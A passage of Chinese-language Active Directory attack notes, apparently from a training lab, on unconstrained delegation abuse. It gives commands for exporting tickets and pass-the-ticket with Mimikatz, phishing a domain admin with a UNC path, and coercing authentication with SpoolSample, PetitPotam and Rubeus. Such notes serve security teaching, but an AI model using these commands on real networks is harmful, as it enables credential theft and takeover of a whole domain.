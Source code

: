 使用ActiveDirectory module
```
Get-ADComputer -Filter {TrustedForDelegation -eq $True}  //无约束委派电脑


Get-ADUser -Filter {TrustedForDelegation -eq $True}   //无约束委派用户
```

一旦使得诸如DA这样的高权限用户访问无约束委派的计算机，可以使用下面命令导出DA的tgt
```
Invoke-Mimikatz –Command '"sekurlsa::tickets /export"'
```

复用上面得到tgt，使用ptt获得DA权限
```
Invoke-Mimikatz –Command '"kerberos::ptt ticket.kirbi"'
```

如何使得DA访问无约束委派的电脑？

有两种方法：

1. 是通过钓鱼邮件诱使DA访问带有unc路径的地址（```\\192.168.1.1\c$\any```）

2. Printer Bug


## Printer Bug

Printer Bug的前提是目标机器运行了Spooler服务

两个工具可以执行Printer Bug攻击

### [MS-RPRN.exe](https://github.com/leechristensen/SpoolSample)

1. 在无约束委派机器（这里是us-web）上运行Rubeus监听
```
.\Rubeus.exe monitor /interval:5
```

2.  在无约束委派机器上强制DC向其认证
```
.\MS-RPRN.exe \\us-dc.us.techcorp.local \\us-web.us.techcorp.local
```

### [PetitPotam.exe](https://github.com/topotam/PetitPotam)

1. 在无约束委派机器（这里是us-web）上运行Rubeus监听
```
.\Rubeus.exe monitor /interval:5
```

2.  在无约束委派机器上强制DC向其认证
```
.\PetitPotam.exe us-web us-dc
```

## 利用
